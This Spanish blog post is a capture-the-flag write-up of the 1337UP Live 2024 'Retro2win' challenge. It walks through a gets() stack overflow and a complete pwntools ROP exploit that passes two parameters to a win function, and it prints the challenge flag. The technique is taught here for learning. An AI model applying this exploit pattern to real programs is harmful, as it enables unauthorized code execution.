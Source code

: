 ```yaml
---
layout: post
title: Retro2win 1337UP Live
comments: true
categories: [Pwn, Writeups, 1337UP]
---
```


Este es el otro reto que resolví de la 1337UP Live de 2024. Es otro *ret2win con parámetros* pero me pareció otro buen ejemplo de este tipo de ataque.

![Image]({{ site.baseurl }}/images/posts/1337UP-logo.png)

# Overview

El enunciado no nos da muchas pistas:

```c
So retro.. So winning..
```

# Reconocimiento

Analizando con *checksec*:

```
	Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

Seguimos descompilando con *ghidra*, vemos que se nos da a elegir entre varias opciones:

```c
undefined8 main(void)

{
  int input;
  
  do {
    while( true ) {
      while( true ) {
        show_main_menu();
        __isoc99_scanf(&DAT_00400c19,&input);
        getchar();
        if (input != 2) break;
        battle_dragon();
      }
      if (2 < input) break;
      if (input == 1) {
        explore_forest();
      }
      else {
LAB_0040093b:
        puts("Invalid choice! Please select a valid option.");
      }
    }
    if (input == 3) {
      puts("Quitting game...");
      return 0;
    }
    if (input != 1337) goto LAB_0040093b;
    enter_cheatcode();
  } while( true );
}
```

```c
void battle_dragon(void)

{
  puts("You encounter a ferocious dragon!");
  puts("But it\'s too strong for you...");
  puts("Only if you had some kind of cheat...\n");
  return;
}
```

Estas funciones no parecen interesantes, pero `enter_cheatcode` sí, ya que utiliza la función vulnerable `gets`, lo que nos permite explotar una vulnerabilidad de tipo *Buffer Overflow*.

```c
void enter_cheatcode(void)

{
  char local_18 [16];
  
  puts("Enter your cheatcode:");
  gets(local_18);
  printf("Checking cheatcode: %s!\n",local_18);
  return;
}
```

Para saltar tenemos la función `cheat_mode`, que en caso de recibir dos parámetros concretos nos dará la flag:

```c
void cheat_mode(long param_1,long param_2)

{
  char *pcVar1;
  char local_58 [72];
  FILE *local_10;
  
  if ((param_1 == 0x2323232323232323) && (param_2 == 0x4242424242424242)) {
    puts("CHEAT MODE ACTIVATED!");
    puts("You now have access to secret developer tools...\n");
    local_10 = fopen("flag.txt","r");
    if (local_10 == (FILE *)0x0) {
      puts("Error: Could not open flag.txt");
    }
    else {
      pcVar1 = fgets(local_58,0x40,local_10);
      if (pcVar1 != (char *)0x0) {
        printf("FLAG: %s\n",local_58);
      }
      fclose(local_10);
    }
  }
  else {
    puts("Unauthorized access detected! Returning to main menu...\n");
  }
  return;
}
```

# Explotación

Con todo esto, sólo necesitamos la dirección a la que saltar:

```
gdb-peda$ info functions
[...]
0x0000000000400736  cheat_mode
[...]
```

Y los gadgets para cargar los dos parámetros:

```bash
ropper -f retro2win | grep "pop"

0x00000000004009b3: pop rdi; ret; 
0x00000000004009b1: pop rsi; pop r15; ret;
```

Finalmente creamos un exploit con *python* y *pwntools*:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

exe = context.binary = ELF(args.EXE or 'retro2win')

def start(argv=[], *a, **kw):

    if args.REMOTE:
        return remote("", 1337)
    else:
        return process('./retro2win')

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

offset = 24

#0x0000000000400736  cheat_mode
cheat_mode = p64(0x400736)

#0x00000000004009b3: pop rdi; ret;
pop_rdi = p64(0x4009b3)
#0x00000000004009b1: pop rsi; pop r15; ret;
pop_rsi_r15 = p64(0x4009b1)

io = start()

io.recvuntil("option:")
io.sendline("1337")
io.recvuntil("cheatcode:")

payload = offset*b'A'
payload += pop_rdi
payload += p64(0x2323232323232323)
payload += pop_rsi_r15
payload += p64(0x4242424242424242)
payload += p64(0x4242424242424242) # Como el gadget es pop rsi r15, debemos meter un valor basura para r15
payload += cheat_mode

io.sendline(payload)

io.interactive()
```

Ejecutamos y ya podemos ver la flag:

```
Checking cheatcode: AAAAAAAAAAAAAAAAAAAAAAAA\xb3	@!
CHEAT MODE ACTIVATED!
You now have access to secret developer tools...

FLAG: INTIGRITI{3v3ry_c7f_n33d5_50m3_50r7_0f_r372w1n}
```

Si te ha gustado este post o tienes alguna duda, puedes dejarme un comentario. Y no dudes en leer el resto de writeups de la competición.